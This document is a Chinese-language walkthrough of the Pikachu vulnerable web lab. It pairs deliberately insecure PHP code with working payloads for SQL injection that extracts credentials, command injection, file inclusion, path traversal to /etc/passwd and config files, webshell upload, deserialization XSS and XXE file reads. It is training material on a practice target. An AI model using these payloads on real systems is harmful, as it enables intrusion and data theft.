随意输入一个字母,能看到匹配出了对应的信息.那么按照 SQL 的模糊查询命令 `select * from 表名 where 字段名 like ‘%(对应值)%’;` ,发现可以按照之前的思路来实现万能语句的拼接.

构造 payload `' or 1=1 #`

这里还存在一个xss `'# <script>alert('沵咑礷赇潒礤蒣騉')</script>`

**union注入**

union 操作符用于合并两个或多个 SQL 语句集合起来,得到联合的查询结果.

以 pikachu 平台的数据库为例,输入 `select id,email from member where username='kevin' union select username,pw from member where id=1` ;查看查询结果.


但是联合多个 SQL 语句时可能出现报错,因为查询的字段不能超过主查询的字段,这个时候可以在 SQL 语句后面加 order by 进行排序,通过这个办法可以判断主查询的字段.返回 pikachu 平台,在 SQL 注入下随意打开搜索型栏目,输入我们构造的 order by 语句进行测试.

输入 `' order by 4#%` ,报错

输入 `' order by 3#%` ,未报错,通过这个简单的办法找到主查询一共有三个字段.

构造 payload: `a' union select database(),user(),version()#%`


**information_schema 注入**

information_schema 数据库是 MySQL 系统自带的数据库.其中保存着关于 MySQL 服务器所维护的所有其他数据库的信息.通过 information_schema 注入,我们可以将整个数据库内容全部窃取出来.接下来是对 information_schema 注入的演示.
首先同之前的步骤,使用 order by 来判断查询的字段.先找出数据库的名称,输入 `a' union select database(),user(),4#%` 得到反馈,判断数据库名称为 pikachu.


获取表名,输入:`a' union select table_schema,table_name,2 from information_schema.tables where table_schema='pikachu'#`


获取字段名,输入:`a'union select table_name,column_name,2 from information_schema.columns where table_name='users'#%`


获取数据,输入:`a'union select username ,password,4 from users#%`


**select 下的报错演示**

select/insert/update/delete 都可以使用报错来获取信息.

- **UPDATEXML(xml_document,XPathstring,new_value)**

    Updatexml() 函数作用:改变(查找并替换)XML文档中符合条件的节点的值.
    - 第一个参数:fiedname是String格式,为表中的字段名.
    - 第二个参数:XPathstring(Xpath格式的字符串).
    - 第三个参数:new_value,String格式,替换查找到的符合条件的 X

改变 XML_document 中符合 XPATH_string 的值

而我们的注入语句为: `a' and updatexml(1,concat(0x7e,(SELECT @@version)),0)#`

其中的 concat() 函数是将其连成一个字符串,因此不会符合 XPATH_string 的格式,从而出现格式错误,爆出 `ERROR 1105 (HY000): XPATH syntax error: ':root@localhost'`

获取数据库表名,输入:`a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu')),0)#` ,但是反馈回的错误表示只能显示一行,所以采用 limit 来一行一行显示


输入 `a' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0)#` 更改limit后面的数字pikachu'limit 0,爆表名






字段名 `a' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0)#` 更改limit后面的数字,爆表名


数据 `a' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#`


数据 `a' and updatexml(1,concat(0x7e,(select password from users limit 0,1)),0)#`


### xx型注入

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理,直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型,需要考虑闭合
    $query="select id,email from member where username=('$name')";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```

**漏洞利用**

参照代码,这里使用字符型且没有使用相似查询,然而这个不重要,关键是构造一个闭合

payload: `' or '1' = '1 #`

### "insert/update"注入

insert 注入,就是前端注册的信息最终会被后台通过 insert 这个操作插入数据库,后台在接受前端的注册数据时没有做防 SQL 注入的处理,导致前端的输入可以直接拼接 SQL 到后端的 insert 相关内容中,导致了 insert 注入.

**服务器端核心代码**
```php
if(isset($_POST['submit'])){
    if($_POST['username']!=null &&$_POST['password']!=null){
//      $getdata=escape($link, $_POST);//转义

        //没转义,导致注入漏洞,操作类型为insert
        $getdata=$_POST;
        $query="insert into member(username,pw,sex,phonenum,email,address) values('{$getdata['username']}',md5('{$getdata['password']}'),'{$getdata['sex']}','{$getdata['phonenum']}','{$getdata['email']}','{$getdata['add']}')";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1){
            $html.="<p>注册成功,请返回<a href='sqli_login.php'>登录</a></p>";
        }else {
            $html.="<p>注册失败,请检查下数据库是否还活着</p>";

        }
    }else{
        $html.="<p>必填项不能为空哦</p>";
    }
}
```

**漏洞利用**

在上面搜索型注入中演示了 select 类报错获取信息,insert 和 update 其实类似

先测 insert 注入,在注册页面输入 `'` ,来查看后端反馈的观察,通过观察报错了解到提交的内容在后台参与了拼接.


版本 `1' or updatexml(1,concat(0x7e,(version())),0) or'')#`

表名 `1' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0) or'')#`


老规矩,改 limit 后的数字

字段名 `1' or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0) or'')#`


老规矩,改 limit 后的数字

数据 `1' or updatexml(1,concat(0x7e,(select username from users limit 0,1)),0) or'')#`


数据 `1' or updatexml(1,concat(0x7e,(select password from users limit 0,1)),0) or'')#`


下面测试 update

**服务器端核心代码**
```php
if(isset($_POST['submit'])){
    if($_POST['sex']!=null && $_POST['phonenum']!=null && $_POST['add']!=null && $_POST['email']!=null){
//        $getdata=escape($link, $_POST);

        //未转义,形成注入,sql操作类型为update
        $getdata=$_POST;
        $query="update member set sex='{$getdata['sex']}',phonenum='{$getdata['phonenum']}',address='{$getdata['add']}',email='{$getdata['email']}' where username='{$_SESSION['sqli']['username']}'";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1 || mysqli_affected_rows($link)==0){
            header("location:sqli_mem.php");
        }else {
            $html1.='修改失败,请重试';

        }
    }
}
```

**漏洞利用**

版本 `1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = <注意!!!这里是你的用户名>;#`

例如我的: `1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = 123;#`




后面爆剩下的略,累了

### "delete"注入

**服务器端核心代码**
```php
// if(array_key_exists('id', $_GET) && is_numeric($_GET['id'])){
//没对传进来的id进行处理,导致DEL注入
if(array_key_exists('id', $_GET)){
    $query="delete from message where id={$_GET['id']}";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        header("location:sqli_del.php");
    }else{
        $html.="<p style='color: red'>删除失败,检查下数据库是不是挂了</p>";
    }
}
```

**漏洞利用**

抓包 `GET /pikachu/vul/sqli/sqli_del.php?id=1 HTTP/1.1`

参数 id 可以尝试 sql 报错注入,构造 payload

`1 or updatexml(1,concat(0x7e,database()),0)`

通过 Burp Suite 中自带的 URL 转换编码来转换替换 ID


后面略

### "http_header"注入

**服务器端核心代码**
```php
if(isset($_GET['logout']) && $_GET['logout'] == 1){
    setcookie('ant[uname]','',time()-3600);
    setcookie('ant[pw]','',time()-3600);
    header("location:sqli_header_login.php");
}
?>
```

**漏洞利用**


登陆后去 Burp 中找到登陆的 GET 请求,把请求发送到 Repeater 模块中,去除 User-Agent:,然后输入 `'`s 然后运行后观察 MYSQL 语法报错然后发现存在 SQL 注入漏洞.



爆库名 payload: `firefox' or updatexml(1,concat(0x7e,database ()),0) or '`


后面略

### 盲注(base_on_boolian)

盲注就是在 sql 注入过程中,sql 语句执行的选择后,报错的数据不能回显到前端页面(后台使用了错误消息屏蔽方法屏蔽了报错).在无法通过返回的信息进行 sql 注入时,采用一些方法来判断表名长度、列名长度等数据后来爆破出数据库数据的的这个过程称为盲注.

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    $name=$_GET['name'];//这里没有做任何处理,直接拼到select里面去了
    $query="select id,email from member where username='$name'";//这里的变量是字符型,需要考虑闭合
    //mysqi_query不打印错误描述,即使存在注入,也不好判断
    $result=mysqli_query($link, $query);//
//     $result=execute($link, $query);
    if($result && mysqli_num_rows($result)==1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```

**漏洞利用**

基于 boolean 盲注主要表现:
```
1. 没有报错信息
2. 不管是正确的输入,还是错误的输入,都只显示两种情况(我们可以认为是0或者1)
3. 在正确的输入下,输入 and 1=1/and 1=2 发现可以判断
```
手工盲注的步骤
```
1.判断是否存在注入,注入是字符型还是数字型
2.猜解当前数据库名
3.猜解数据库中的表名
4.猜解表中的字段名
5.猜解数据
```

`注: 这里 123 是我创建的用户,可能原来是 admin,自己查一下数据库里的数据`

payload: `123' and 1=1 #` 有结果返回说明是字符型

payload: `123' and length(database())=7 #` 有结果,库名字7个字符

后面就是正常的盲注爆库步骤了,略

### 盲注(base_on_time)

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    $name=$_GET['name'];//这里没有做任何处理,直接拼到select里面去了
    $query="select id,email from member where username='$name'";//这里的变量是字符型,需要考虑闭合
    $result=mysqli_query($link, $query);//mysqi_query不打印错误描述
//     $result=execute($link, $query);
//    $html.="<p class='notice'>i don't care who you are!</p>";
    if($result && mysqli_num_rows($result)==1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            //这里不管输入啥,返回的都是一样的信息,所以更加不好判断
            $html.="<p class='notice'>i don't care who you are!</p>";
        }
    }else{

        $html.="<p class='notice'>i don't care who you are!</p>";
    }
}
```

**漏洞利用**

源码里注释说的很清楚了,不管输入的是啥,返回的都是一样的.但就算没有不同的返回值,也是存在不同的返回情况的,因为查询语句是一定会被执行的.能通过控制返回的时间来判断查询是否存在

`123' and if(length(database())=7,sleep(5),1) #` 明显延迟,说明数据库名的长度为5个字符;

后面的步骤按部就班,略

### 宽字节注入

**服务器端核心代码**
```php
if(isset($_POST['submit']) && $_POST['name']!=null){

    $name = escape($link,$_POST['name']);
    $query="select id,email from member where username='$name'";//这里的变量是字符型,需要考虑闭合
    //设置mysql客户端来源编码是gbk,这个设置导致出现宽字节注入问题
    $set = "set character_set_client=gbk";
    execute($link,$set);

    //mysqi_query不打印错误描述
    $result=mysqli_query($link, $query);
    if(mysqli_num_rows($result) >= 1){
        while ($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{
        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```

**漏洞利用**

id 的参数传入代码层,就会在 `’` 前加一个 `\`,由于采用的 URL 编码,所以产生的效果是
`%df%5c%27`

关键就在这,`%df` 会吃掉 `%5c`,形成一个新的字节,举个例子就是 `%d5` 遇到 `%5c` 会把 `%5c` 吃掉,形成 `%d5%5c` ,这个编码经过代码解码后会形成一个汉字 `"誠"`

因为 `%df` 的关系,`\` 的编码 `%5c` 被吃掉了,也就失去了转义的效果,直接被带入到 mysql 中,然后 mysql 在解读时无视了 `%a0%5c` 形成的新字节,那么单引号便重新发挥了效果

 这作者写提示就 TM 玩似的,太不友好了

- 测试payload: `lili%df' or 1=1 #`
- 测试payload: `lili%df%27%20or%201=1%23`

- 爆库payload: `lili%df' union select user(),database() #`

- 爆表payload: `lili%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`


- 后面略

---

## RCE

RCE 漏洞,可以让攻击者直接向后台服务器远程注入操作系统命令或者代码,从而控制后台系统.
一般出现这种漏洞,是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口

比如我们常见的路由器、防火墙、入侵检测等设备的 web 管理界面上

一般会给用户提供一个 ping 操作的 web 界面,用户从 web 界面输入目标 IP,提交后,后台会对该 IP 地址进行一次 ping 测试,并返回测试结果. 而,如果,设计者在完成该功能时,没有做严格的安全控制,则可能会导致攻击者通过该接口提交"意想不到"的命令,从而让后台进行执行,从而控制整个后台服务器

### exec_"ping"

**服务器端核心代码**
```php
if(isset($_POST['submit']) && $_POST['ipaddress']!=null){
    $ip=$_POST['ipaddress'];
//     $check=explode('.', $ip);可以先拆分,然后校验数字以范围,第一位和第四位1-255,中间两位0-255
    if(stristr(php_uname('s'), 'windows')){
//         var_dump(php_uname('s'));
        $result.=shell_exec('ping '.$ip);//直接将变量拼接进来,没做处理
    }else {
        $result.=shell_exec('ping -c 4 '.$ip);
    }
}
```

**漏洞利用**

可以拼接想要执行的命令
- payload: `127.0.0.1 && ipconfig`
- payload: `127.0.0.1 & ipconfig`
- payload: `127.0.0.1 | ipconfig`


### exec_"eval"

**服务器端核心代码**
```php
if(isset($_POST['submit']) && $_POST['txt'] != null){
    if(@!eval($_POST['txt'])){
        $html.="<p>你喜欢的字符还挺奇怪的!</p>";
    }
}
```

- **eval(phpcode)**

    eval() 函数把字符串按照 PHP 代码来计算.

    该字符串必须是合法的 PHP 代码,且必须以分号结尾.

    如果没有在代码字符串中调用 return 语句,则返回 NULL.如果代码中存在解析错误,则 eval() 函数返回 false.

**漏洞利用**

如果后台对输入没有处理,那么我们输入一个php代码:`phpinfo();` ,就会直接执行代码而不是返回正确的窗口


---

## File_Inclusion

文件包含,是一个功能.在各种开发语言中都提供了内置的文件包含函数,其可以使开发人员在一个代码文件中直接包含(引入)另外一个代码文件. 比如 在PHP中,提供了:
- include(),include_once()
- require(),require_once()

大多数情况下,文件包含函数中包含的代码文件是固定的,因此也不会出现安全问题. 但是,有些时候,文件包含的代码文件被写成了一个变量,且这个变量可以由前端用户传进来,这种情况下,如果没有做足够的安全考虑,则可能会引发文件包含漏洞. 攻击着会指定一个"意想不到"的文件让包含函数去执行,从而造成恶意操作. 根据不同的配置环境,文件包含漏洞分为如下两种情况:
1. 本地文件包含漏洞:仅能够对服务器本地的文件进行包含,由于服务器上的文件并不是攻击者所能够控制的,因此该情况下,攻击着更多的会包含一些 固定的系统配置文件,从而读取系统敏感信息.很多时候本地文件包含漏洞会结合一些特殊的文件上传漏洞,从而形成更大的威力.
2. 远程文件包含漏洞:能够通过url地址对远程的文件进行包含,这意味着攻击者可以传入任意的代码,这种情况没啥好说的,准备挂彩.

因此,在 web 应用系统的功能设计上尽量不要让前端用户直接传变量给包含函数,如果非要这么做,也一定要做严格的白名单策略进行过滤.

### 本地文件包含

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['filename']!=null){
    $filename=$_GET['filename'];
    include "include/$filename";//变量传进来直接包含,没做任何的安全限制
//     //安全的写法,使用白名单,严格指定包含的文件名
//     if($filename=='file1.php' || $filename=='file2.php' || $filename=='file3.php' || $filename=='file4.php' || $filename=='file5.php'){
//         include "include/$filename";

//     }
}
```

**漏洞利用**

查看页面的 url: `http://<服务器IP!!!>/pikachu/vul/fileinclude/fi_local.php?filename=file1.php&submit=提交`

尝试构造 payload: `http://<服务器IP!!!>/pikachu/vul/fileinclude/fi_local.php?filename=../../../test/phpinfo.txt&submit=%E6%8F%90%E4%BA%A4`

### 远程文件包含

将 allow_url_include 设置为 On

**服务器端核心代码**
```php
//远程文件包含漏洞,需要php.ini的配置文件符合相关的配置
if(isset($_GET['submit']) && $_GET['filename']!=null){
    $filename=$_GET['filename'];
    include "$filename";//变量传进来直接包含,没做任何的安全限制
}
```

**漏洞利用**

尝试构造 payload: `http://<服务器IP!!!>/pikachu/vul/fileinclude/fi_remote.php?filename=http://<服务器B IP!!!>/phpinfo.php&submit=%E6%8F%90%E4%BA%A4`

---

## Unsafe_Filedownload

文件下载功能在很多 web 系统上都会出现,一般我们当点击下载链接,便会向后台发送一个下载请求,一般这个请求会包含一个需要下载的文件名称,后台在收到请求后 会开始执行下载代码,将该文件名对应的文件 response 给浏览器,从而完成下载. 如果后台在收到请求的文件名后,将其直接拼进下载文件的路径中而不对其进行安全判断的话,则可能会引发不安全的文件下载漏洞.

此时如果 攻击者提交的不是一个程序预期的的文件名,而是一个精心构造的路径(比如../../../etc/passwd),则很有可能会直接将该指定的文件下载下来. 从而导致后台敏感信息(密码文件、源代码等)被下载.

所以,在设计文件下载功能时,如果下载的目标文件是由前端传进来的,则一定要对传进来的文件进行安全考虑. 切记:所有与前端交互的数据都是不安全的,不能掉以轻心!

**漏洞利用**

构造 payload: `http://<服务器IP!!!>/pikachu/vul/unsafedownload/execdownload.php?filename=../../../inc/config.inc.php`

---

## Unsafe_Fileupload

文件上传功能在 web 应用系统很常见,比如很多网站注册的时候需要上传头像、上传附件等等.当用户点击上传按钮后,后台会对上传的文件进行判断 比如是否是指定的类型、后缀名、大小等等,然后将其按照设计的格式进行重命名后存储在指定的目录. 如果说后台对上传的文件没有进行任何的安全判断或者判断条件不够严谨,则攻击着可能会上传一些恶意的文件,比如一句话木马,从而导致后台服务器被 webshell.

所以,在设计文件上传功能时,一定要对传进来的文件进行严格的安全考虑.比如:
- 验证文件类型、后缀名、大小;
- 验证文件的上传方式;
- 对文件进行一定复杂的重命名;
- 不要暴露文件上传后的路径;
- 等等...

### client_check

**服务器端核心代码**
```php
if(isset($_POST['submit'])){
//     var_dump($_FILES);
    $save_path='uploads';//指定在当前目录建立一个目录
    $upload=upload_client('uploadfile',$save_path);//调用函数
    if($upload['return']){
        $html.="<p class='notice'>文件上传成功</p><p class='notice'>文件保存的路径为:{$upload['new_path']}</p>";
    }else{
        $html.="<p class=notice>{$upload['error']}</p>";
    }
}
```

**漏洞利用**

说只允许上传图片文件,那么查看前端代码,当页面发生改变时,会调用这个checkFileExt函数来检查上传的是不是图片


这里可以把文件先改成图片的后缀名,然后抓包修改后缀上传



### MIME_type

**什么是 MIME**

最早的 HTTP 协议中,并没有附加的数据类型信息,所有传送的数据都被客户程序解释为超文本标记语言 HTML 文档,而为了支持多媒体数据类型,HTTP 协议中就使用了附加在文档之前的MIME数据类型信息来标识数据类型.

MIME意为多目 Internet 邮件扩展,它设计的最初目的是为了在发送电子邮件时附加多媒体数据,让邮件客户程序能根据其类型进行处理.然而当它被 HTTP 协议支持之后,它的意义就更为显著了.它使得 HTTP 传输的不仅是普通的文本,而变得丰富多彩.

每个 MIME 类型由两部分组成,前面是数据的大类别,例如声音 audio、图象 image 等,后面定义具体的种类.

常见的 MIME 类型
- 超文本标记语言文本 .html,.html text/html
- 普通文本 .txt text/plain
- RTF 文本 .rtf application/rtf
- GIF 图形 .gif image/gif
- JPEG 图形 .ipeg,.jpg image/jpeg
- au 声音文件 .au audio/basic
- MIDI 音乐文件 mid,.midi audio/midi,audio/x-midi
- RealAudio 音乐文件 .ra, .ram audio/x-pn-realaudio
- MPEG 文件 .mpg,.mpeg video/mpeg
- AVI 文件 .avi video/x-msvideo
- GZIP 文件 .gz application/x-gzip
- TAR 文件 .tar application/x-tar

Internet 中有一个专门组织 IANA 来确认标准的 MIME 类型,但 Internet 发展的太快,很多应用程序等不及 IANA 来确认他们使用的 MIME 类型为标准类型.因此他们使用在类别中以 x- 开头的方法标识这个类别还没有成为标准,例如:x-gzip,x-tar 等.事实上这些类型运用的很广泛,已经成为了事实标准.只要客户机和服务器共同承认这个 MIME 类型,即使它是不标准的类型也没有关系,客户程序就能根据 MIME 类型,采用具体的处理手段来处理数据.而Web服务器和浏览器(包括操作系统)中,缺省都设置了标准的和常见的 MIME 类型,只有对于不常见的 MIME 类型,才需要同时设置服务器和客户浏览器,以进行识别.

由于 MIME 类型与文档的后缀相关,因此服务器使用文档的后缀来区分不同文件的 MIME 类型,服务器中必须定义文档后缀和 MIME 类型之间的对应关系.而客户程序从服务器上接收数据的时候,它只是从服务器接受数据流,并不了解文档的名字,因此服务器必须使用附加信息来告诉客户程序数据的 MIME 类型.服务器在发送真正的数据之前,就要先发送标志数据的 MIME 类型的信息,这个信息使用 Content-type 关键字进行定义,例如对于 HTML 文档,服务器将首先发送以下两行 MIME 标识信息,这个标识并不是真正的数据文件的一部分.

Content-type: text/html

注意,第二行为一个空行,这是必须的,使用这个空行的目的是将 MIME 信息与真正的数据内容分隔开.

**服务器端核心代码**
```php
if(isset($_POST['submit'])){
//     var_dump($_FILES);
    $mime=array('image/jpg','image/jpeg','image/png');//指定MIME类型,这里只是对MIME类型做了判断.
    $save_path='uploads';//指定在当前目录建立一个目录
    $upload=upload_sick('uploadfile',$mime,$save_path);//调用函数
    if($upload['return']){
        $html.="<p class='notice'>文件上传成功</p><p class='notice'>文件保存的路径为:{$upload['new_path']}</p>";
    }else{
        $html.="<p class=notice>{$upload['error']}</p>";
    }
}s
```

**漏洞利用**

这里分别上传一个图片和一个 txt 文本,用 burp 进行抓包,分别观察两种不同的 Content-Type

1. Content-Type: image/jpeg
2. Content-Type: text/plain

这里将 txt 的 Content-Type 改为图片的 Content-Type ,测试,成功上传


### getimagesize

**服务器端核心代码**
```php
if(isset($_POST['submit'])){
    $type=array('jpg','jpeg','png');//指定类型
    $mime=array('image/jpg','image/jpeg','image/png');
    $save_path='uploads'.date('/Y/m/d/');//根据当天日期生成一个文件夹
    $upload=upload('uploadfile','512000',$type,$mime,$save_path);//调用函数
    if($upload['return']){
        $html.="<p class='notice'>文件上传成功</p><p class='notice'>文件保存的路径为:{$upload['save_path']}</p>";
    }else{
        $html.="<p class=notice>{$upload['error']}</p>";

    }
}
```

**漏洞利用**

这里可以利用文件包含+文件头欺骗进行 getshell

做个图片马 `copy 11111.png/b+1.php/a shell5.png`

burp转发上传


蚁剑连接


---

## Over_Permission

如果使用 A 用户的权限去操作 B 用户的数据,A 的权限小于 B 的权限,如果能够成功操作,则称之为越权操作. 越权漏洞形成的原因是后台使用了 不合理的权限校验规则导致的.

一般越权漏洞容易出现在权限页面(需要登录的页面)增、删、改、查的的地方,当用户对权限页面内的信息进行这些操作时,后台需要对 对当前用户的权限进行校验,看其是否具备操作的权限,从而给出响应,而如果校验的规则过于简单则容易出现越权漏洞.
因此,在在权限管理中应该遵守:
1. 使用最小权限原则对用户进行赋权;
2. 使用合理(严格)的权限校验规则;
3. 使用后台登录态作为条件进行权限判断,别动不动就瞎用前端传进来的条件

### 水平越权

**漏洞利用**

观察链接,发现用户名是通过 URL 提交的,直接修改 URL 里的用户名可以访问其他用户的信息

### 垂直越权

**漏洞利用**

用 admin 登录一下,创建个账号 123456,然后退出,账号用 pikachu 登录,将之前创建账号 123 的请求在 burp 里转发,用 pikachu 的 cookie 覆盖之前 admin 的 cookie,可以发现 123 被重复创建了


---

## 目录遍历

在 web 功能设计中,很多时候我们会要将需要访问的文件定义成变量,从而让前端的功能便的更加灵活. 当用户发起一个前端的请求时,便会将请求的这个文件的值(比如文件名称)传递到后台,后台再执行其对应的文件. 在这个过程中,如果后台没有对前端传进来的值进行严格的安全考虑,则攻击者可能会通过 `../` 这样的手段让后台打开或者执行一些其他的文件. 从而导致后台服务器上其他目录的文件结果被遍历出来,形成目录遍历漏洞.

看到这里,你可能会觉得目录遍历漏洞和不安全的文件下载,甚至文件包含漏洞有差不多的意思,是的,目录遍历漏洞形成的最主要的原因跟这两者一样,都是在功能设计中将要操作的文件使用变量的 方式传递给了后台,而又没有进行严格的安全考虑而造成的,只是出现的位置所展现的现象不一样,因此,这里还是单独拿出来定义一下.

需要区分一下的是,如果你通过不带参数的 url(比如:http://xxxx/doc)列出了 doc 文件夹里面所有的文件,这种情况,我们成为敏感信息泄露.而并不归为目录遍历漏洞.

**漏洞利用**

payload: `http://<IP address !!!>/pikachu/vul/dir/dir_list.php?title=../../../../../../../../../1.txt`



linux payload: `http://<IP address !!!>/pikachu/vul/dir/dir_list.php?title=../../../../../../../../../etc/passwd`

---

## 敏感信息泄露

由于后台人员的疏忽或者不当的设计,导致不应该被前端用户看到的数据被轻易的访问到. 比如:
- 通过访问 url 下的目录,可以直接列出目录下的文件列表;
- 输入错误的 url 参数后报错信息里面包含操作系统、中间件、开发语言的版本或其他信息;
- 前端的源码(html,css,js)里面包含了敏感信息,比如后台登录地址、内网接口信息、甚至账号密码等;

类似以上这些情况,我们成为敏感信息泄露.敏感信息泄露虽然一直被评为危害比较低的漏洞,但这些敏感信息往往给攻击着实施进一步的攻击提供很大的帮助,甚至"离谱"的敏感信息泄露也会直接造成严重的损失. 因此,在 web 应用的开发上,除了要进行安全的代码编写,也需要注意对敏感信息的合理处理.

**漏洞利用**

直接 F12 查看源代码


---

## PHP反序列化

在理解这个漏洞前,你需要先搞清楚 php 中 `serialize()` ,`unserialize()` 这两个函数.

**序列化 serialize()**

序列化说通俗点就是把一个对象变成可以传输的字符串,比如下面是一个对象:
```php
<?php
class S{
    public $test="pikachu";
}
$s=new S(); //创建一个对象
serialize($s); //把这个对象进行序列化
print_r(serialize($s));
?>

序列化后得到的结果是这个样子的:O:1:"S":1:{s:4:"test";s:7:"pikachu";}
    O:代表object
    1:代表对象名字长度为一个字符
    S:对象的名称
    1:代表对象里面有一个变量
    s:数据类型
    4:变量名称的长度
    test:变量名称
    s:数据类型
    7:变量值的长度
    pikachu:变量值
```

**反序列化 unserialize()**

就是把被序列化的字符串还原为对象,然后在接下来的代码中继续使用.
```php
$u=unserialize("O:1:"S":1:{s:4:"test";s:7:"pikachu";}");
echo $u->test; //得到的结果为pikachu
```

序列化和反序列化本身没有问题,但是如果反序列化的内容是用户可以控制的,且后台不正当的使用了PHP中的魔法函数,就会导致安全问题

常见的几个魔法函数:
```
__construct() 当一个对象创建时被调用

__destruct() 当一个对象销毁时被调用

__toString() 当一个对象被当作一个字符串使用

__sleep() 在对象在被序列化之前运行

__wakeup 将在序列化之后立即被调用
```

漏洞举例:
```php
class S{
    var $test = "pikachu";
    function __destruct(){
        echo $this->test;
    }
}
$s = $_GET['test'];
@$unser = unserialize($a);

payload:O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
```

**服务器端核心代码**
```php
class S{
    var $test = "pikachu";
    function __construct(){
        echo $this->test;
    }
}

if(isset($_POST['o'])){
    $s = $_POST['o'];
    if(!@$unser = unserialize($s)){
        $html.="<p>大兄弟,来点劲爆点儿的!</p>";
    }else{
        $html.="<p>{$unser->test}</p>";
    }

}
```

**漏洞利用**

首先需要 PHP 中自己定义一个变量,并将该变量写为一个恶意代码并将其序列化,访问写好的 php 文件并查看源代码将序列化好的代码复制下来作为 payload

在线反序列化工具: https://www.w3cschool.cn/tools/index?name=unserialize

payload: `O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}`



回到平台提交 payload 就会触发弹窗


---

## XXE

**什么是 XML 外部实体**

如果你了解 XML,你可以把 XML 理解为一个用来定义数据的东东.因此,两个采用不同技术的系统可以通过 XML 进行通信和交换数据. 比如,下图就是一个用来描述一个职工的 XML 文档样本,其中的’name’,'salary’,'address’ 被称为 XML 的元素.


有些 XML 文档包含 system 标识符定义的"实体",这些 XML 文档会在 DOCTYPE 头部标签中呈现.这些定义的’实体’能够访问本地或者远程的内容.比如,下面的 XML 文档样例就包含了XML ‘实体’.


在上面的代码中, XML 外部实体 ‘entityex’ 被赋予的值为:file://etc/passwd.在解析 XML 文档的过程中,实体’entityex’的值会被替换为 URI(file://etc/passwd)内容值(也就是 passwd 文件的内容). 关键字’SYSTEM’会告诉 XML 解析器,’entityex’实体的值将从其后的 URI 中读取.因此,XML 实体被使用的次数越多,越有帮助.

**XXE**

XXE -"xml external entity injection"既"xml外部实体注入漏洞".有了 XML 实体,关键字’SYSTEM’会令 XML 解析器从 URI 中读取内容,并允许它在 XML 文档中被替换.因此,攻击者可以通过实体将他自定义的值发送给应用程序,然后让应用程序去呈现. 简单来说,攻击者强制 XML 解析器去访问攻击者指定的资源内容(可能是系统上本地文件亦或是远程系统上的文件).比如,下面的代码将获取系统上 folder/file 的内容并呈献给用户.


概括一下就是"攻击者通过向服务器注入指定的 xml 实体内容,从而让服务器按照指定的配置进行执行,导致问题",也就是说服务端接收和解析了来自用户端的 xml 数据,而又没有做严格的安全控制,从而导致 xml 外部实体注入.

**服务器端核心代码**
```PHP
if(isset($_POST['submit']) and $_POST['xml'] != null){
    $xml =$_POST['xml'];
//    $xml = $test;
    $data = @simplexml_load_string($xml,'SimpleXMLElement',LIBXML_NOENT);
    if($data){
        $html.="<pre>{$data}</pre>";
    }else{
        $html.="<p>XML声明、DTD文档类型定义、文档元素这些都搞懂了吗?</p>";
    }
}
```

**漏洞利用**

输入 paylaod,就会弹出设置的值
```XML
<?xml version = "1.0"?>
<!DOCTYPE note [
    <!ENTITY hacker "admin">
]>
<name>&hacker;</name>
```


payload,请先确定目标路径有这个文件
```xml
<?xml version = "1.0"?>
<!DOCTYPE note [
<!ENTITY aaa SYSTEM "file:///c:/1.txt">]>
<name>&aaa;</name>
```


在 linux 下还可以输入这样的 payload
```XML
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "expect://ifconfig">
]>
<x>&f;</x>
```

---

## URL重定向

不安全的 url 跳转问题可能发生在一切执行了 url 地址跳转的地方.

如果后端采用了前端传进来的(可能是用户传参,或者之前预埋在前端页面的 url 地址)参数作为了跳转的目的地,而又没有做判断的话

就可能发生"跳错对象"的问题.

url 跳转比较直接的危害是: 钓鱼,既攻击者使用漏洞方的域名(比如一个比较出名的公司域名往往会让用户放心的点击)做掩盖,而最终跳转的确实钓鱼网站,一般的流程是,跳转漏洞-->钓鱼页面-->提交用户名密码-->跳转回来

**服务器端核心代码**
```php
if(isset($_GET['url']) && $_GET['url'] != null){
    $url = $_GET['url'];
    if($url == 'i'){
        $html.="<p>好的,希望你能坚持做你自己!</p>";
    }else {
        header("location:{$url}");
    }
}
```

**漏洞利用**

payload: `http://<IP address !!!>/pikachu/vul/urlredirect/urlredirect.php?url=https://www.baidu.com`

---

## SSRF

